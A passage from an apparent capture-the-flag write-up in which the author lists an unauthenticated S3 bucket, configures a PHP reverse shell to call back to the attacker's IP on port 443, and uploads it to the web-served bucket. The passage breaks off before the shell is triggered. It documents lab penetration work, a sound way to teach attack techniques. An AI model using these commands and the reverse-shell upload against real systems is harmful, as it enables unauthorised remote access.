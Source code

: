 We can use `aws s3 ls` to list files on the server.

```bash
root@darkness:~# aws s3 --endpoint-url http://s3.bucket.htb/ ls s3://adserver --recursive
Unable to locate credentials. You can configure credentials by running "aws configure".
```

Let us re-run the command using the `--no-sign-request` option.

```bash
root@darkness:~# aws s3 --endpoint-url http://s3.bucket.htb/ ls s3://adserver --recursive --no-sign-request
2021-01-14 15:13:04      37840 images/bug.jpg
2021-01-14 15:13:04      51485 images/cloud.png
2021-01-14 15:13:04      16486 images/malware.png
2021-01-14 15:13:04       5344 index.html
```

We successfully list the files on this bucket. Let us try to get RCE by upload a php-payload.

### Initial Shell

In order to get RCE, we have to upload a php-payload and access it. As the bucket gets reset regularly, we have to be quick about it.

Let us first prepare the shell.php file.

```bash
root@darkness:~# cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@darkness:~# sed -i 's/127.0.0.1/10.10.14.11/g' shell.php 
root@darkness:~# sed -i 's/1234/443/g' shell.php
```

Now we have prepared the shell.php file to send a reverse-shell to our IP on port 443 upon execution.

Let us upload the shell to the server.

```bash
root@darkness:~# aws --endpoint-url http://s3.bucket.htb/ s3 cp shell.php s3://adserver/images/shell.php --no-sign-request
upload: ./shell.php to s3://adserver/images/shell.php
```

Let us check if the file was successfully uploaded.

```bash
root@darkness:~# aws s3 --endpoint-url http://s3.bucket.htb/ ls s3://adserver --recursive --no-sign-request
2021-01-14 16:48:02      37840 images/bug.jpg
2021-01-14 16:48:02      51485 images/cloud.png
2021-01-14 16:48:02      16486 images/malware.png
2021-01-14 16:48:56       5492 images/shell.php
2021-01-14 16:48:02       5344 index.html
```

Seems like we have successfully uploaded the shell. Next, let us try to access the file on the web-server.
